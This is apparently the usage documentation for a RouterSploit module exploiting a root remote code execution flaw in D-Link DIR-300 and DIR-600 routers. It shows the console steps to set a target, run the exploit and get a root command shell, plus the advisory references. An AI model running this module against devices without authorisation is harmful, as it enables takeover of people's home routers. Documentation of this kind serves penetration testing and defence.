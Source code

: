 You can use the tab key for completion.

### Options

Display module options:

	rsf (D-LINK DIR-300 & DIR-600 RCE) > show options

	Target options:


	   Name       Current settings     Description                                
	   ----       ----------------     -----------                                
	   target                          Target address e.g. http://192.168.1.1     
	   port       80                   Target Port

Set options:

	rsf (D-LINK DIR-300 & DIR-600 RCE) > set target http://192.168.1.1
	[+] {'target': 'http://192.168.1.1'}

### Run module

You can exploit the target by issuing the 'run' or 'exploit' command:

	rsf (D-LINK DIR-300 & DIR-600 RCE) > run
	[+] Target is vulnerable
	[*] Invoking command loop...
	cmd > whoami
	root

It is also possible to check if the target is vulnerable to particular exploit:

	rsf (D-LINK DIR-300 & DIR-600 RCE) > check
	[+] Target is vulnerable

### Info

Display information about exploit:

	rsf (D-LINK DIR-300 & DIR-600 RCE) > show info

	Name:
	D-LINK DIR-300 & DIR-600 RCE

	Description:
	Module exploits D-Link DIR-300, DIR-600 Remote Code Execution vulnerability which allows executing command on operating system level with root privileges.

	Devices:
	- D-Link DIR 300
	- D-Link DIR 600

	Authors:
	- Michael Messner <devnull[at]s3cur1ty.de> # vulnerability discovery
	- Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

	References:
	- http://www.dlink.com/uk/en/home-solutions/connect/routers/dir-600-wireless-n-150-home-router
	- http://www.s3cur1ty.de/home-network-horror-days
	- http://www.s3cur1ty.de/m1adv2013-003
